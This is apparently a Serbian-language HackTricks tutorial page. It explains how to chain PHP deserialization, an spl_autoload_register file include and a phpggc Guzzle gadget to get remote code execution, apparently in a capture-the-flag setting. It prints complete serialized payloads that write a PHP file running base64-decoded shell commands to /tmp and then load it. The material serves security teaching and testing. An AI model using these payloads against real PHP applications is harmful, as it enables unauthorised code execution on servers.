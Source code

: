 # PHP - Deserializacija + Autoload Klase

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}

Prvo, trebate proveriti šta su [**Autoloading Klase**](https://www.php.net/manual/en/language.oop5.autoload.php).

## PHP deserializacija + spl\_autoload\_register + LFI/Gadget

Nalazimo se u situaciji gde smo pronašli **PHP deserializaciju u web aplikaciji** bez **ikakvih** biblioteka ranjivih na gadgete unutar **`phpggc`**. Međutim, u istom kontejneru postojala je **druga composer web aplikacija sa ranjivim bibliotekama**. Stoga, cilj je bio **učitati composer loader druge web aplikacije** i iskoristiti ga da **učita gadget koji će iskoristiti tu biblioteku sa gadgetom** iz web aplikacije ranjive na deserializaciju.

Koraci:

* Pronašli ste **deserializaciju** i **nema gadgeta** u trenutnom kodu aplikacije
* Možete iskoristiti funkciju **`spl_autoload_register`** kao što je sledeća da **učitate bilo koji lokalni fajl sa `.php` ekstenzijom**
* Za to koristite deserializaciju gde će ime klase biti unutar **`$name`**. **Ne možete koristiti "/" ili "."** u imenu klase u serijalizovanom objektu, ali **kod** **menja** **donje crte** ("\_") **u kose crte** ("/"). Tako će ime klase kao što je `tmp_passwd` biti transformisano u `/tmp/passwd.php` i kod će pokušati da ga učita.\
Primer **gadgeta** bi bio: **`O:10:"tmp_passwd":0:{}`**
```php
spl_autoload_register(function ($name) {

if (preg_match('/Controller$/', $name)) {
$name = "controllers/${name}";
} elseif (preg_match('/Model$/', $name)) {
$name = "models/${name}";
} elseif (preg_match('/_/', $name)) {
$name = preg_replace('/_/', '/', $name);
}

$filename = "/${name}.php";

if (file_exists($filename)) {
require $filename;
}
elseif (file_exists(__DIR__ . $filename)) {
require __DIR__ . $filename;
}
});
```
{% hint style="success" %}
Ako imate **upload fajlova** i možete da upload-ujete fajl sa **`.php` ekstenzijom**, mogli biste **da zloupotrebite ovu funkcionalnost direktno** i dobijete već RCE.
{% endhint %}

U mom slučaju, nisam imao ništa slično, ali je unutar **iste kontejnere** bila još jedna composer web stranica sa **bibliotekom koja je ranjiva na `phpggc` gadget**.

* Da biste učitali ovu drugu biblioteku, prvo morate da **učitate composer loader te druge web aplikacije** (jer loader trenutne aplikacije neće imati pristup bibliotekama druge.) **Poznavajući putanju aplikacije**, to možete lako postići sa: **`O:28:"www_frontend_vendor_autoload":0:{}`** (U mom slučaju, composer loader je bio u `/www/frontend/vendor/autoload.php`)
* Sada možete **učitati** loader **druge aplikacije**, tako da je vreme da **`generišete phpgcc`** **payload** koji ćete koristiti. U mom slučaju, koristio sam **`Guzzle/FW1`**, što mi je omogućilo da **pišem bilo koji fajl unutar fajl sistema**.
* NAPOMENA: **Generisani gadget nije radio**, da bi radio, **izmenio** sam taj payload **`chain.php`** od phpggc i postavio **sve atribute** klasa **sa privatnih na javne**. Ako ne, nakon deserializacije stringa, atributi kreiranih objekata nisu imali nikakve vrednosti.
* Sada imamo način da **učitamo loader druge aplikacije** i imamo **phpggc payload koji radi**, ali moramo **to uraditi u ISTOM ZAHTEVU da bi loader bio učitan kada se gadget koristi**. Za to, poslao sam serijalizovani niz sa oba objekta kao:
* Možete videti **prvo kako se loader učitava, a zatim payload**

{% code overflow="wrap" %}
```php
a:2:{s:5:"Extra";O:28:"www_frontend_vendor_autoload":0:{}s:6:"Extra2";O:31:"GuzzleHttp\Cookie\FileCookieJar":4:{s:7:"cookies";a:1:{i:0;O:27:"GuzzleHttp\Cookie\SetCookie":1:{s:4:"data";a:3:{s:7:"Expires";i:1;s:7:"Discard";b:0;s:5:"Value";s:56:"<?php system('echo L3JlYWRmbGFn | base64 -d | bash'); ?>";}}}s:10:"strictMode";N;s:8:"filename";s:10:"/tmp/a.php";s:19:"storeSessionCookies";b:1;}}
```
{% endcode %}

* Sada možemo **da kreiramo i pišemo datoteku**, međutim, korisnik **nije mogao da piše u bilo koju fasciklu unutar web servera**. Dakle, kao što možete videti u payload-u, PHP poziva **`system`** sa nekim **base64** koji je kreiran u **`/tmp/a.php`**. Zatim, možemo **ponovo iskoristiti prvi tip payload-a** koji smo koristili kao LFI da učitamo composer loader druge web aplikacije **da učitamo generisanu `/tmp/a.php`** datoteku. Samo ga dodajte u gadget za deserializaciju:&#x20;

{% code overflow="wrap" %}
```php
a:3:{s:5:"Extra";O:28:"www_frontend_vendor_autoload":0:{}s:6:"Extra2";O:31:"GuzzleHttp\Cookie\FileCookieJar":4:{s:7:"cookies";a:1:{i:0;O:27:"GuzzleHttp\Cookie\SetCookie":1:{s:4:"data";a:3:{s:7:"Expires";i:1;s:7:"Discard";b:0;s:5:"Value";s:56:"<?php system('echo L3JlYWRmbGFn | base64 -d | bash'); ?>";}}}s:10:"strictMode";N;s:8:"filename";s:10:"/tmp/a.php";s:19:"storeSessionCookies";b:1;}s:6:"Extra3";O:5:"tmp_a":0:{}}
```
{% endcode %}

**Sažetak napada**

* **Učitaj composer autoload** druge web aplikacije u istom kontejneru
* **Učitaj phpggc gadget** da bi iskoristio biblioteku iz druge web aplikacije (prva web aplikacija ranjiva na deserializaciju nije imala nijedan gadget u svojim bibliotekama)
* Gadget će **napraviti datoteku sa PHP payload-om** u /tmp/a.php sa malicioznim komandama (korisnik web aplikacije ne može da piše u bilo koju fasciklu bilo koje web aplikacije)
* Poslednji deo našeg payload-a će koristiti **učitavanje generisane php datoteke** koja će izvršiti komande

Trebao sam da **pozovem ovu deserializaciju dva puta**. U mom testiranju, prvi put je datoteka `/tmp/a.php` kreirana, ali nije učitana, a drugi put je ispravno učitana.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
